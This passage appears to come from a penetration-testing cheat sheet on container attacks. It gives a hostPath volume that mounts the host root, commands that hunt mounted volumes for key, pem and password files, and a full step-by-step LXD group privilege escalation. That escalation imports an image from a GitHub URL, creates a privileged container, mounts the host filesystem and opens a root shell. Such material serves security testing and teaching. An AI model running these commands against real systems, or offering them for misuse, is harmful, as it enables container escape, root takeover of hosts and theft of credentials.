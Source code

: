 #### Host Path Volumes
```yaml
# Dangerous hostPath volume
volumes:
- name: host-root
  hostPath:
    path: /
    type: Directory
```

#### Persistent Volume Exploitation
- **Data Persistence**: Access data across container restarts
- **Volume Poisoning**: Inject malicious files into shared volumes
- **Cross-container Access**: Access volumes from multiple containers
- **Host Directory Traversal**: Escape container through volume mounts

### Volume Attack Techniques
```bash
# List mounted volumes in container
df -h
mount | grep -v "^/dev"

# Explore host filesystem through volume
ls -la /host-volume/

# Search for sensitive files
find /volumes -name "*.key" -o -name "*.pem" -o -name "*password*"
```

## LXD/LXC Container Group Privilege Escalation

### LXD Privilege Escalation
LXD (Linux Container Daemon) can be exploited for privilege escalation when users are in the lxd group.

#### Exploitation Steps
```bash
# Check LXD group membership
groups

# Initialize LXD (if needed)
lxd init

# Download Alpine Linux image
lxc image import https://github.com/saghul/lxd-alpine-builder/releases/download/v3.13/alpine-v3.13-x86_64.tar.gz --alias myimage

# Create privileged container with host filesystem access
lxc init myimage ignite -c security.privileged=true

# Mount host filesystem
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true

# Start container and get shell
lxc start ignite
lxc exec ignite /bin/sh

# Access host root filesystem
cd /mnt/root
```
